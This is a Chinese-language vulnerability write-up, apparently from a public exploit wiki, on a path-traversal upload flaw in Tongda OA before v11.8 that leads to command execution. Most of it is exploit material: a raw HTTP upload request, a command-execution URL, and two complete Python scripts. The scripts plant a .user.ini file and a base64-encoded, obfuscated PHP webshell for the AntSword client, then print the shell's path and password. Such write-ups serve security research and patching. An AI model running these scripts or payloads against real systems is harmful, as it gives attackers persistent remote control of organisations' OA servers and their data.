






# 通达OA v11.8 update.php 后台文件包含命令执行漏洞

## 漏洞描述

通达OA v11.8以下存在文件上传接口，可上传 .user.ini 文件包含有PHP语句的文件导致命令执行

## 漏洞影响

```
通达OA < v11.8
```

## 环境搭建

[通达OA v11.6下载链接](https://cdndown.tongda2000.com/oa/2019/TDOA11.6.exe)

下载完毕点击安装即可

## 漏洞复现

这里使用的环境为通达 v11.6版本

出现漏洞的文件为 **webroot/general/hr/manage/staff_info/update.php**

```php
<?php

include_once "inc/auth.inc.php";
include_once "inc/utility_all.php";
include_once "inc/utility_file.php";
include_once "inc/utility_field.php";
include_once "inc/utility_cache.php";
include_once "general/system/log/annual_leave_log.php";
if (strstr($BYNAME, "/") || strstr($BYNAME, "\\") || strstr($BYNAME, "..")) {
	Message(_("错误"), _("OA用户名包含非法字符！"));
	exit();
}

include_once "inc/header.inc.php";
echo "\r\n<body class=\"bodycolor\">\r\n";
echo "\r\n<body class=\"bodycolor\">\r\n";
$PHOTO_NAME0 = $_FILES["ATTACHMENT"]["name"];
$ATTACHMENT = $_FILES["ATTACHMENT"]["tmp_name"];

if ($PHOTO_NAME0 != "") {
	$FULL_PATH = MYOA_ATTACH_PATH . "hrms_pic";

	if (!file_exists($FULL_PATH)) {
		@mkdir($FULL_PATH, 448);
	}

	$PHOTO_NAME = $USER_ID . substr($PHOTO_NAME0, strrpos($PHOTO_NAME0, "."));
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```



在这里参数 **$USER_ID** 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 **../../../** 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 **.user.ini** 文件来包含其他文件，这里是可以用于包含PHP语句的文件的，所以我们上传文件内容为

```plain
auto_prepend_file=peiqi.log
```

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 **USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user** 为上传路径

关于更多原理参考 http://wiki.peiqi.tech 中的另一篇 通达OA v11.8 后台文件包含存储型XSS漏洞

这里我们简单知道了上传方式，那我们就通过 **.user.ini文件** 包含恶意文件



现在已经成功上传了恶意文件

访问 http://xxx.xxx.xxx.xxx/general/reportshop/workshop/report/attachment-remark/form.inc.php?peiqi=ipconfig 文件包含命令执行


在 v11.6中 上传的位置并没有限定所以可以上传在方便访问的目录(不需要登录)

而 v11.8中则有目录名的限制需要目录带有 webroot 和 attachment





## 漏洞POC

脚本在 v11.6 测试成功执行， 在 v11.6以上执行时 这个webshell无法执行命令

v11.7 v11.8可用蚁剑插件绕过连接webshell

```python
import requests
import sys
import random
import re
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA < V11.8                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> xxxxxxxxxxxxxxxxxxxxxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0idGVzdC5pbmkiCkNvbnRlbnQtVHlwZTogdGV4dC9wbGFpbgoKYXV0b19wcmVwZW5kX2ZpbGU9dGVzdC5sb2cKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0idGVzdC5sb2ciCkNvbnRlbnQtVHlwZTogdGV4dC9wbGFpbgoKPD9waHAgCmVjaG8gInRlc3RfV2lraSI7CiRwemtCPWNyZWF0ZV9mdW5jdGlvbihjaHIoMDEwMTc1MC8wMTY1MikuYmFzZTY0X2RlY29kZSgnY3c9PScpLmJhc2U2NF9kZWNvZGUoJ2J3PT0nKS5jaHIoOTkwODEvOTA5KS5jaHIoMDEwMjUtMDY2MCksY2hyKDA1MTctMDM1MikuY2hyKDB4MzQzLTB4MmNkKS5iYXNlNjRfZGVjb2RlKCdZUT09Jykuc3RyX3JvdDEzKCd5JykuYmFzZTY0X2RlY29kZSgnS0E9PScpLmJhc2U2NF9kZWNvZGUoJ0pBPT0nKS5jaHIoNDQ0LTMyOSkuYmFzZTY0X2RlY29kZSgnYnc9PScpLmNocig1OTctNDg4KS5jaHIoMHgxOWYtMHgxM2EpLmNocigyMTktMTc4KS5iYXNlNjRfZGVjb2RlKCdPdz09JykpOyRwemtCKGJhc2U2NF9kZWNvZGUoJ05EZzFOJy4nemMyTzAnLidCbGRrRicuJ3NLQ1JmJy4nJy5jaHIoODIxMTAvOTY2KS5iYXNlNjRfZGVjb2RlKCdSUT09Jykuc3RyX3JvdDEzKCc5JykuY2hyKDAxNTUwNjQvMDEyMzEpLmJhc2U2NF9kZWNvZGUoJ1ZnPT0nKS4nJy4nJy5zdHJfcm90MTMoJ1MnKS5iYXNlNjRfZGVjb2RlKCdkQT09JykuYmFzZTY0X2RlY29kZSgnTUE9PScpLmNocig2MDc1MC82NzUpLmNocigwMTUwNy0wMTM1NykuJycuJ04wWFNrJy4nN01UUTEnLidOek15TycuJ0RzPScuJycpKTs/PgotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQo=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php? \033[0m".format(target_url))
        if "test_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki \033[0m".format(target_url))
            print("\033[32m[o] 成功上传蚁剑木马 密码为: test \n[o] webshell路径: {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?\033[0m".format(target_url))

        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = "PHPSESSID=ug4ip8ohugo61bmu399npplep5; USER_NAME_COOKIE=admin; OA_USER_ID=admin"
    POC_1(target_url, Cookie)
```



v11.8及以下可连接蚁剑生成的webshell控制,且生成后不需要管理员Cookie即可连接

```python
import requests
import sys
import random
import re
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 通达OA < V11.8                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> xxxxxxxxxxxxxxxxxxxxxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkuaW5pIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KCmF1dG9fcHJlcGVuZF9maWxlPXBlaXFpLmxvZwotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/peiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkubG9nIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KCjw/cGhwIAplY2hvICJQZWlRaV9XaWtpIjsKJGZPZ1Q9Y3JlYXRlX2Z1bmN0aW9uKGJhc2U2NF9kZWNvZGUoJ0pBPT0nKS5jaHIoMTE0MTk1Lzk5Mykuc3RyX3JvdDEzKCdiJykuc3RyX3JvdDEzKCd6JykuY2hyKDcwOC02MDcpLGNocigweGM2MGUvMHgxZjYpLmJhc2U2NF9kZWNvZGUoJ2RnPT0nKS5zdHJfcm90MTMoJ24nKS5jaHIoMzkwLTI4MikuY2hyKDB4MWFlLTB4MTg2KS5jaHIoMHgzYWMtMHgzODgpLmNocigweGQ1NjEvMHgxZGIpLmJhc2U2NF9kZWNvZGUoJ2J3PT0nKS5iYXNlNjRfZGVjb2RlKCdiUT09JykuYmFzZTY0X2RlY29kZSgnWlE9PScpLnN0cl9yb3QxMygnKScpLmNocig3OTgtNzM5KSk7JGZPZ1QoYmFzZTY0X2RlY29kZSgnT1RNMk4nLidETTNPMCcuJ0JsZGtGJy4nc0tDUmYnLicnLnN0cl9yb3QxMygnSCcpLnN0cl9yb3QxMygnUicpLmNocig0MTM4Mi83MjYpLnN0cl9yb3QxMygnRycpLmJhc2U2NF9kZWNvZGUoJ1ZnPT0nKS4nJy4nJy5iYXNlNjRfZGVjb2RlKCdSZz09Jykuc3RyX3JvdDEzKCdnJykuc3RyX3JvdDEzKCdEJykuYmFzZTY0X2RlY29kZSgnV2c9PScpLmNocigyMzc1MS8yNzMpLicnLidsUmFWMCcuJ3BPekk0Jy4nTURrek0nLidURTcnLicnKSk7Pz4KLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0K")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/peiqi \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 peiqi.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 peiqi.log 文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php? \033[0m".format(target_url))
        if "PeiQi_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 PeiQi_Wiki \033[0m".format(target_url))
            print("\033[32m[o] 成功上传蚁剑木马 密码为: PeiQi \n[o] webshell路径: {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?\033[0m".format(target_url))

        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 PeiQi_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = "PHPSESSID=ug4ip8ohugo61bmu399npplep5; USER_NAME_COOKIE=admin; OA_USER_ID=admin"
    POC_1(target_url, Cookie)
```



